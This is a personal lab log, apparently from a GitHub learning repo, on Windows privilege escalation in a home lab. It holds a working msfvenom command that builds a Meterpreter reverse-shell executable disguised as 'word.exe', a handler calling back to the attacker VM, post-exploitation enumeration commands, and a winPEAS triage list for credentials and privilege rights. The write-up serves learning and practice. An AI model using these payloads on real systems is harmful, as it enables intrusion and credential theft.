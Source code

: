 # Day 4 — Windows Privilege Escalation (Phase A: initial access via Meterpreter)  
**Author:** Shaafi (FROSTmatic-hub)  
**Objective:** Obtain an interactive shell on the Windows 10 lab VM and perform initial safe enumeration. Prepare for automated privilege escalation checks.

---

## Lab setup & safety
- Host: my laptop (home network)  
- Attacker: Kali VM — IP: `192.168.31.213` (bridged)  
- Target: Windows 10 VM — IP: `192.168.31.159` (bridged)  
- Snapshot created before exploit: `day4_before_exploit` (recommended)

> **Ethics:** All actions performed on owned lab VMs only. No external systems targeted.

---

## Access method (payload & handler)
- Payload generated with `msfvenom` (Windows Meterpreter EXE).  
- `msfconsole` handler configured:  
  - `LHOST = 192.168.31.213`  
  - `LPORT = 5555`

**Example used**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.213 LPORT=5555 -f exe -o word.exe
# Metasploit handler:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.213
set LPORT 5555
run
```
## Evidence (Meterpreter outputs)
- `getuid`: Server username: DESKTOP-TD9BS8A\test
- `sysinfo`: 
    Computer   : DESKTOP-TD9BS8A
    OS         : Windows 10 (10.0 Build 10240)
    Architecture: x64
    System Language: en_US
    Domain     : WORKGROUP
## Basic (non-destructive) enumeration commands executed
```bash
meterpreter> sysinfo
meterpreter> getuid
meterpreter> getprivs
meterpreter> ipconfig
meterpreter> ps
meterpreter> shell
C:\> whoami
C:\> whoami /priv
C:\> net localgroup administrators
C:\> sc queryex type= service
C:\> schtasks /query /fo LIST /v
#Saved output to output/day4_meterpreter_basic.txt
```

### Phase B — Automated enumeration with winPEAS (Windows 11)

**Tool used:** `winPEAS.exe` (uploaded to target and executed locally)  
**Executed by:** Shaafi (FROSTmatic-hub)

---

## Commands / procedure used
1. Uploaded `winPEAS.exe` to the target via Meterpreter / manual download.  
2. Executed winPEAS and saved readable output to a file on the VM:
```text
# executed on target VM
C:\Users\Public\winPEAS.exe > C:\Users\Public\winpeas_output.txt
```
3. transferred C:\Users\Public\winpeas_output.txt to attacker (Kali) and saved as:
`outputs/day4_winpeas.txt`

## What to look for in the output (how I triaged)

### I searched the winPEAS output for the following high-value indicators:
- Unquoted service paths (`unquoted` / `Unquoted Service Paths`)
- Writable service binaries / folders (`write`, `writable`)
- Plaintext credentials or config files (`password`, `plaintext`, `creds`)
- AlwaysInstallElevated `HKLM`/`HKCU` values
- Privileged rights (`SeImpersonatePrivilege`, `SeAssignPrimaryTokenPrivilege`)
- Scheduled tasks running as `SYSTEM` and `world-writable` directories